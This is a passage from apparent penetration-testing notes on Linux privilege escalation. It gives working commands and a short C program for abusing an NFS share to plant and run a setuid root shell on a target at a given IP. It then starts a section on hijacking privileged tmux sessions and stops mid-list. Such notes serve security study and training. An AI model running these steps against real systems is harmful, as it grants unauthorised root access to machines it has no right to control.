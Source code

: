         # on attacker machine, switch to root
        sudo su

        vim shell.c

        gcc shell.c -o shell
        # can use '-static' flag in case we are getting error due to different glibc versions

        # on attacker machine, mount the /tmp directory
        sudo mount -t nfs 10.129.2.12:/tmp /mnt

        cp shell /mnt

        chmod u+s /mnt/shell
        # the shellcode is copied from attacker as root, to victim and SUID bit is set

        # on target machine
        ./shell
        # gives root shell
        ```

        ```c
        #include <stdio.h>
        #include <sys/types.h>
        #include <unistd.h>
        #include <stdlib.h>

        int main(void)
        {
        setuid(0); setgid(0); system("/bin/bash");
        }
        ```
    
    * Hijacking Tmux sessions:

        ```sh
        # a tmux process running as privileged user can be hijacked if not config properly

        tmux -S /shareds new -s debugsess

        chown root:devs /shareds

        # start by checking for any tmux process
